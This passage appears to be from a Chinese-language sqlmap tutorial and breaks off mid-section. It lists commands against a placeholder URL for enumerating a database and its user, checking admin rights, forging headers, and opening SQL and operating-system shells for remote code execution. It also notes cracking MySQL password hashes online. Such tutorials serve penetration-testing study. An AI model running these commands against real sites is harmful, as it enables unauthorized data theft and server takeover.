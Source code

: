 密码使用MySQL5加密，在www.cmd5.com中解密。

列出当前网站使用的数据库名称：

```bash
sqlmap -u "http://xxx/union.php?id=1" --current-db
```

获取当前网站数据库用户名称：

```bash
sqlmap -u "http://xxx/union.php?id=1" --current-user
```

## 常用参数

设定探测等级，等级1·5，越高越全面，速度越慢。等级1开始GET和POST，等级2测试HTTP cookie，等级3测试HTTP User-Agent/Referer头，等级5测试cookie、XFF头注入等，默认1。

```bash
sqlmap -u http://xxx/?id=1 --level 5
```

随机代理：

```bash
sqlmap -r 123.txt --random-agent --level 3
```

当前用户是否为管理权限：

```bash
sqlmap -u "http://xxx/union.php?id=1" --is-dba
```

如果当前为管理权限，可读取所有用户角色，仅适用Oracle：

```bash
sqlmap -u "http://xxx/?id=1" --roles
```

伪造HTTP Referer头：

```bash
sqlmap -u "http://xxx/?id=1" --referer http://www.baidu.com
```

打开SQL Shell：

```bash
sqlmap -u "http://xxx/union.php?id=1" --sql-shell
```

如果为MySQL、PostgreSQL、Microsoft SQL Server，可能RCE，可尝试打开Shell：

（该命令支持ASP、ASP.NET、JSP和PHP，但如果想执行改参数，需要DBA权限）

```bash
sqlmap -u "http://xxx/union.php?id=1" --os-cmd #或
sqlmap -u "http://xxx/union.php?id=1" --os-shell
```

服务器中读取文件：
